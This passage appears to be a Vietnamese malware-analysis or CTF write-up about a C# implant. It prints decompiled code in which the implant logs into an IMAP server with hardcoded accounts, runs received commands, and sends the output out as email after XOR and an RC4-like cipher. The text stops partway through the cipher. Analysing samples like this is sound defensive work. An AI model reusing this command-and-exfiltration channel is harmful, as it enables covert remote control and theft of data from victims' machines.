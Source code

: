 Tiếp theo

```C#
private static void execute(string[] commands)
    {
      try
      {
        Program.connect(Program.creds.Split(':')[2], 143);
        Program.Login(Program.creds.Split(':')[0], Program.creds.Split(':')[1]);
      }
      catch
      {
        try
        {
          Program.connect(Program.r_creds.Split(':')[2], 143);
          Program.Login(Program.r_creds.Split(':')[0], Program.r_creds.Split(':')[1]);
        }
        catch
        {
        }
      }
      foreach (string command in commands)
      {
        if (command.Contains("change_"))
          Program.change(command);
        else
          Program.create(Convert.ToBase64String(Program.xor(Encoding.UTF8.GetBytes(Program.cmd(command)))));
      }
    }
```
Hàm `execute` thực hiện cố gắng kết nối đến máy chủ email bằng tài khoản chính (proplayer@email.com) , nếu không được thì dùng tài khoản dự phòng (proplayer1@email.com)
- Nếu không phải lệnh `change_` thì chạy lệnh, mã hóa kết quả, và gửi lên máy chủ dưới dạng email

Tiếp theo là hàm mã hóa xor

![image](https://github.com/user-attachments/assets/fc55da73-6e80-4fec-9c54-ad7264dc5838)

Hàm sử dụng một mảng byte cố định gồm 256 phần tử làm khóa (key)

Đến đây là mình bị stuck, vì ban đầu mình nghĩ thì chỉ là xor giữa key và data xong base64 encoded thông thường nhưng thử rất nhiều script giải mã mà kh cho ra kết quả mong muốn

Nhìn kĩ lại thì thấy ban đầu hàm return `Exor.encrypt`, giờ mình sẽ đi tìm hàm Exor xem nó làm gì

```C#
namespace imap_chanel
{
  public class Exor
  {
    public static byte[] Encrypt(byte[] pwd, byte[] data)
    {
      int[] numArray1 = new int[256];
      int[] numArray2 = new int[256];
      byte[] numArray3 = new byte[data.Length];
      for (int index = 0; index < 256; ++index)
      {
        numArray1[index] = (int) pwd[index % pwd.Length];
        numArray2[index] = index;
      }
      int index1;
      for (int index2 = index1 = 0; index1 < 256; ++index1)
      {
        index2 = (index2 + numArray2[index1] + numArray1[index1]) % 256;
        int num = numArray2[index1];
        numArray2[index1] = numArray2[index2];
```